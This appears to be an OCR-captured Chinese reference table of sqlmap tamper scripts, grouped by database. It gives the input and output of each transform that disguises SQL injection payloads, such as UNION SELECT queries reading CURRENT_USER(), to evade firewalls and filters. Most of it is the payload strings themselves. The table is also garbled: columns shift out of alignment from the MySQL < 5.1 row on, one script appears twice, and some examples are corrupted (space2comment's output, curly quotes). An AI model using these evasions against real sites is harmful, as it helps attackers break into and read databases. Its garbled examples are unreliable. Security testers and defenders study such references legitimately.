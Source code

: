 | 4               | ifnull2ifisnull.py           | 绕过对 IFNULL 过滤。 替换类似’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’ | ('IFNULL(1, 2)') 'IF(ISNULL(1),2,1)'                         |                                                              |
| 5               | space2mssqlhash.py           | 替换空格                                                     | ('1 AND 9227=9227') '1%23%0AAND%23%0A9227=9227'              |                                                              |
| 6               | modsecurityversioned.py      | 过滤空格，包含完整的查询版本注释                             | ('1 AND 2>1--') '1 /*!30874AND 2>1*/--'                      |                                                              |
| 7               | space2mysqlblank.py          | 空格替换其它空白符号(mysql)                                  | Input: SELECT id FROM users Output: SELECT%0Bid%0BFROM%A0users |                                                              |
| 8               | between.py                   | 用between替换大于号（>）                                     | ('1 AND A > B--') '1 AND A NOT BETWEEN 0 AND B--'            |                                                              |
| 9               | modsecurityzeroversioned.py  | 包含了完整的查询与零版本注释                                 | ('1 AND 2>1--') '1 /*!00000AND 2>1*/--'                      |                                                              |
| 10              | space2mysqldash.py           | 替换空格字符（”）（’ – ‘）后跟一个破折号注释一个新行（’ n’） | ('1 AND 9227=9227') '1--%0AAND--%0A9227=9227'                |                                                              |
| 11              | bluecoat.py                  | 代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like | ('SELECT id FROM users where id = 1') 'SELECT%09id FROM users where id LIKE 1' |                                                              |
| 12              | percentage.py                | asp允许每个字符前面添加一个%号                               | * Input: SELECT FIELD FROM TABLE * Output: %S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E |                                                              |
| 13              | charencode.py                | url编码                                                      | * Input: SELECT FIELD FROM%20TABLE * Output: %53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45 |                                                              |
| 14              | randomcase.py                | 随机大小写                                                   | * Input: INSERT * Output: InsERt                             |                                                              |
| 15              | versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))# * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS**!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))# |                                                              |
| 16              | space2comment.py             | Replaces space character (‘ ‘) with comments ‘/**/’          | * Input: SELECT id FROM users * Output: SELECT//id//FROM/**/users |                                                              |
| 17              | charunicodeencode.py         | 字符串 unicode 编码                                          | * Input: SELECT FIELD%20FROM TABLE * Output: %u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′ |                                                              |
| 18              | versionedmorekeywords.py     | 注释绕过                                                     | * Input: 1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))# * Output: 1/*!UNION**!ALL**!SELECT**!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS**!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))# |                                                              |
| MySQL < 5.1     | 19                           | halfversionedmorekeywords.py                                 | 关键字前加注释                                               | * Input: value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa * Output: value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa |
| 20              | halfversionedmorekeywords.py | 当数据库为mysql时绕过防火墙，每个关键字之前添加 mysql版本评论 | 1.("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") 2."value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |                                                              |
| MySQL >= 5.1.13 | 21                           | space2morehash.py                                            | 空格替换为 #号 以及更多随机字符串 换行符                     | * Input: 1 AND 9227=9227 * Output: 1%23PTTmJopxdWJ%0AAND%23cWfcVRPV%0A9227=9227 |
| Oracle          | 1                            | greatest.py                                                  | 绕过过滤’>’ ,用GREATEST替换大于号。                          | ('1 AND A > B') '1 AND GREATEST(A,B+1)=A'                    |
| 2               | apostrophenullencode.py      | 绕过过滤双引号，替换字符和双引号。                           | tamper("1 AND '1'='1")  '1 AND %00%271%00%27=%00%271'        |                                                              |